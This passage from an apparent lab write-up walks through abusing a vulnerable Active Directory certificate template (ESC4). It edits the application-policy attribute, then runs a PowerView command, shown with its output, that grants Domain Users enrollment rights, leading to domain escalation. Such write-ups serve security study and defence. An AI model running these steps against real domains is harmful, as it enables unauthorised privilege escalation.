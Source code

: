 5. Set `mspki-certificate-application-policy` to a certificate purpose for authentication

6. Request a high privileged certificate for authentication and perform Pass-The-Ticket attack

Shouldn't we edit `pkiextendedkeyusage` attribute and `mspki-ra-application-policies` attribute?
As far as I tested, it is not required.
This is because if the `mspki-certificate-application-policy`, `pkiextendedkeyusage` and `mspki-ra-application-policies` do not match, then `mspki-certificate-application-policy` takes precedence in the use of the certificate.　
Therefore, for Domain Escalation, you only need to edit `mspki-certificate-application-policy` to abuse vulnerable certificate in this case.


### Getting Enrollment Right
Now we only have WriteDacl for ESC4 template and cannot enroll the template.
Generally, certificate templates have 2 extended rights:

+ __`Certificate-Enrollment`__: This extended right corresponds "Enroll" right. According to the [Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/adschema/r-certificate-enrollment), the corresponding GUID is `0e10c968-78fb-11d2-90d4-00c04f79dc55`.

+ __`Certificate-AutoEnrollment`__: This extended right corresponds "Autoenroll" right. According to the [Microsoft Docs](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/ece0ab37-35bf-41d0-a30b-64f9a5792f59), the corresponding GUID is `a05b8cc2-17bc-4802-a710-e7c15ab866a2`.

To get enrollment right for the template, we need to add `Certificate-Enrollment` (GUID: `0e10c968-78fb-11d2-90d4-00c04f79dc55`) extended right to the target certificate.

> __NOTE__: If you want to add all extended rights (in this case, `Certificate-Enrollment` and `Certificate-AutoEnrollment`) at once, use `00000000-0000-0000-0000-000000000000` as GUID. It corresponds to all extended rights.

We can get `Certificate-Enrollment` extended right for the vulnerable template (ESC4) by `Add-DomainObjectAcl` function of PowerView as follows:

```
PS C:\Tools> Add-DomainObjectAcl -TargetIdentity ESC4 -PrincipalIdentity "Domain Users" -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=contoso,DC=local" -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.CONTOSO.LOCAL/DC=CONTOSO,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=Domain Users)(name=Domain
Users)(displayname=Domain Users))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.CONTOSO.LOCAL/CN=Configuration,DC=contoso,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Domain Users,CN=Users,DC=contoso,DC=local 'All' on
CN=16436712.C9FC364DA743F327A81BD9832F3BBFD3,CN=OID,CN=Public Key
Services,CN=Services,CN=Configuration,DC=contoso,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Domain Users,CN=Users,DC=contoso,DC=local rights GUID
'0e10c968-78fb-11d2-90d4-00c04f79dc55' on CN=16436712.C9FC364DA743F327A81BD9832F3BBFD3,CN=OID,CN=Public Key
Services,CN=Services,CN=Configuration,DC=contoso,DC=local
VERBOSE: [Add-DomainObjectAcl] Error granting principal CN=Domain Users,CN=Users,DC=contoso,DC=local 'All' on
CN=16436712.C9FC364DA743F327A81BD9832F3BBFD3,CN=OID,CN=Public Key
Services,CN=Services,CN=Configuration,DC=contoso,DC=local : Exception calling "CommitChanges" with "0" argument(s):
"Access is denied.
"
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Domain Users,CN=Users,DC=contoso,DC=local 'All' on
CN=ESC4,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local
```